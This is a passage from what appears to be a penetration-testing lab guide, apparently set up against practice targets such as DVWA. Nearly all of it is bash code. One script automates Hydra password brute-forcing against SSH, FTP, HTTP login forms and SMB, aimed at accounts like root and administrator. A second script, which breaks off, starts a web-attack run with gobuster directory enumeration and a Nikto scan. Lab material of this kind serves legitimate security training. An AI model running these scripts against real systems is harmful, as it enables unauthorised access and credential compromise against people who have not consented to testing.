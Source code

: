 ```bash

case $SERVICE in
    "ssh")
        echo "[+] Brute forcing SSH..."
        hydra -l root -P $WORDLIST $TARGET_IP ssh > $OUTPUT_DIR/ssh-bruteforce.txt
        hydra -l admin -P $WORDLIST $TARGET_IP ssh >> $OUTPUT_DIR/ssh-bruteforce.txt
        hydra -l vulnerable -P $WORDLIST $TARGET_IP ssh >> $OUTPUT_DIR/ssh-bruteforce.txt
        ;;
    "ftp")
        echo "[+] Brute forcing FTP..."
        hydra -l anonymous -P $WORDLIST $TARGET_IP ftp > $OUTPUT_DIR/ftp-bruteforce.txt
        hydra -l admin -P $WORDLIST $TARGET_IP ftp >> $OUTPUT_DIR/ftp-bruteforce.txt
        ;;
    "http")
        echo "[+] Brute forcing HTTP..."
        hydra -l admin -P $WORDLIST $TARGET_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid" > $OUTPUT_DIR/http-bruteforce.txt
        ;;
    "smb")
        echo "[+] Brute forcing SMB..."
        hydra -l administrator -P $WORDLIST $TARGET_IP smb > $OUTPUT_DIR/smb-bruteforce.txt
        ;;
    *)
        echo "[-] Unknown service: $SERVICE"
        exit 1
        ;;
esac

echo "[+] Brute force attack completed. Results saved to $OUTPUT_DIR"
EOF

chmod +x /opt/bruteforce-automation.sh
```

#### Web Application Attack Script
```bash
# Create web application attack script
sudo tee /opt/webapp-attacks.sh > /dev/null <<'EOF'
#!/bin/bash

TARGET_URL=$1
OUTPUT_DIR="/tmp/webapp-attack-$(date +%Y%m%d-%H%M%S)"

if [ $# -ne 1 ]; then
    echo "Usage: $0 <target_url>"
    echo "Example: $0 http://10.0.2.101/dvwa"
    exit 1
fi

mkdir -p $OUTPUT_DIR

echo "[+] Starting web application attacks against $TARGET_URL"
echo "[+] Output directory: $OUTPUT_DIR"

# Directory enumeration
echo "[+] Enumerating directories..."
gobuster dir -u $TARGET_URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o $OUTPUT_DIR/directories.txt

# Nikto scan
echo "[+] Running Nikto scan..."
nikto -h $TARGET_URL -o $OUTPUT_DIR/nikto-scan.txt

```